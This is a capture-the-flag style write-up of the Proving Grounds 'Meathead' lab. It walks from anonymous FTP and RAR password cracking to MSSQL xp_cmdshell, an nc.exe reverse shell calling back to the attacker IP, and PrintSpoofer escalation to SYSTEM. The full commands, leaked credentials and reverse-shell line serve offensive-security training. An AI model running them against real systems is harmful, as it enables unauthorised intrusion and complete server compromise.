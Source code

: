 ```yaml
---
description: Proving Grounds Practice PG Meathead writeup
---
```


# Meathead

## Nmap

```
sudo nmap 192.168.67.70 -p- -sV -sS  

PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds  Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
1221/tcp open  ftp           Microsoft ftpd
1435/tcp open  ms-sql-s      Microsoft SQL Server 2017 14.00.1000
3389/tcp open  ms-wbt-server Microsoft Terminal Services
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; 
CPE: cpe:/o:microsoft:windows
```

`FTP` on port 1221 allows anonymous login with passive mode `-p` enabled.

![](<../../../.gitbook/assets/image (811).png>)

Using the `get` command to downloaded the MSSQL\_BAK.rar file and then using the `unrar` command shows that we need a password to extract the archive.

```
unrar e <archive)
```

![](<../../../.gitbook/assets/image (812).png>)

We can use the `rar2john` binary that comes with John to get a hash from the password protected RAR file.

![](<../../../.gitbook/assets/image (813).png>)

On my main Windows host I used `hashcat` crack the hash. I have also shown the command used below the `cmd.exe` windows. The cracked password is: `letmeinplease`

![](<../../../.gitbook/assets/image (814).png>)

Back on the Kali VM I ran `unrar` again and this time was successful in extracting the archive.

![](<../../../.gitbook/assets/image (815).png>)

Reading the contents of mssql\_backup.txt provides the following credentials `sa:EjectFrailtyThorn425`

We are then able to Impacket's `mssqlclient.py` to connect to the target machines SQL.

```
mssqlclient.py -port 1435 sa:EjectFrailtyThorn425@192.168.67.70
```

![](<../../../.gitbook/assets/image (816) (1).png>)

From here we can run `enable_xp_cmdshell` and then confirm command execution with `xp_cmdshell whoami`.

![](<../../../.gitbook/assets/image (817).png>)

From here due to various reasons I was unable to use `certutil.exe` and `Powershell` for file transfer. Instead I set up a `SMB` server on my attacking machine with Impacket's `smbserver.py`.

```
sudo python2 smbserver.py Share /home/kali/
```

![](<../../../.gitbook/assets/image (818) (1).png>)

From here we need to ensure nc.exe exists in the same directory in which the `SMB` Server is sharing files from. Set up a `netcat` listener on the attacking machine.

```
nc -lvp 1221
```

Then run the following command on the SQL server running the xp\_cmdshell.

```
xp_cmdshell \\192.168.49.67\Share\nc.exe -e cmd.exe 192.168.49.67 1221
```

We now have a proper reverse shell.

![](<../../../.gitbook/assets/image (819).png>)

Now connected and checking privileges with the `whoami /all` command we see we have the `SeImpersonatePrivilege` permission.

![](<../../../.gitbook/assets/image (1933).png>)

Checking `systeminfo` for the version of Windows server running we see we are on Windows Server 2019.

![](<../../../.gitbook/assets/image (1934).png>)

Given the privileges and version of Windows Server running it is unlikely a JuicyPotato attack would be successful. It is probable however that we can take advantage of these permissions with a `PrintSpoofer.exe` attack.

Binary: [https://github.com/itm4n/PrintSpoofer/releases/tag/v1.0](https://github.com/itm4n/PrintSpoofer/releases/tag/v1.0)

Download the binary and place it in the `SMB` share we set up earlier with `smbserver.py`. I then moved over to the FTP directory at `C:\FTP` as this is writeable to the current service account 'mssql$sqlexpress'.

I then copied the binary to the current working directory:

```bash
copy \\<Attacking-IP>\Share\PrintSpoofer.exe
```

Then executed the `PrintSpoofer.exe` with switches to spawn a **SYSTEM** shell in the current shell.

```bash
printspoofer.exe -i -c cmd
```

![](<../../../.gitbook/assets/image (1935).png>)
